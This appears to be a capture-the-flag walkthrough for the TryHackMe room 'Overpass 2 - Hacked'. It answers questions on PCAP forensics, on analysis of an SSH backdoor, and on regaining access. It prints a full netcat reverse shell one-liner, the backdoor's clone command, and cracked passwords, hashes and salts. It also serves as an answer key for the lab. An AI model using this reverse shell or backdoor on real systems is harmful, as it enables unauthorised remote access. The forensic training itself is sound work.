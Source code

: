 # [Overpass 2 - Hacked](https://tryhackme.com/r/room/overpass2hacked)

![Overpass2-Hacked](./images/Overpass2-Hacked.png)

## Task 1 - Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing Linux Fundamentals as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### Answer the questions below

* What was the URL of the page they used to upload a reverse shell?

	`/development/`

	![task1-development](./images/task1-development.png)

* What payload did the attacker use to gain access?

	`exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`

	![task1-payload](./images/task1-payload.png)

* What password did the attacker use to privesc?
	
	`whenevernoteartinstant`

	![task1-password](./images/task1-password.png)

* How did the attacker establish persistence?

	`https://github.com/NinjaJc01/ssh-backdoor`

	![task1-backdoor](./images/task1-backdoor.png)

* Using the fasttrack wordlist, how many of the system passwords were crackable?

	`4`

	![task1-shadow](./images/task1-shadow.png)

	![task1-john](./images/task1-john.png)

## Task 2 - Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

### Answer the questions below

* What's the default hash for the backdoor?

	`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

	* Clone backdoor file our machine
	
		`git clone https://github.com/NinjaJc01/ssh-backdoor`

	* Open file `main.go` 
	
		![task2-hash](./images/task2-hash.png)

* What's the hardcoded salt for the backdoor?

	`1c362db832f3f864c8c2fe05f2002a05`

	![task2-salt](./images/task2-salt.png)

* What was the hash that the attacker used? - go back to the PCAP for this!

	`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

	![task2-backdoor-hash(./images/task2-backdoor-hash.png)]

* Crack the hash using rockyou and a cracking tool of your choice. What's the password?

	`november16`

	* View hash format (Password + salt) 
	 
		![task2-hashpassword](./images/task2-hashpassword.png)

	* Crete file `attacke-hash.txt`
	
			![task2-cat](./images/task2-cat.png)

	* Crack hash file
	
		![task2-sha512](./images/task2-sha512.png)

		![task2-password](./images/task2-password.png)


## Task 3 - Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

### Answer the questions below

* The attacker defaced the website. What message did they leave as a heading?

	`H4ck3d by CooctusClan`

	![task3-meesege](./images/task3-meesege.png)

* Using the information you've found previously, hack your way back in!

	

* What's the user flag?

* What's the root flag?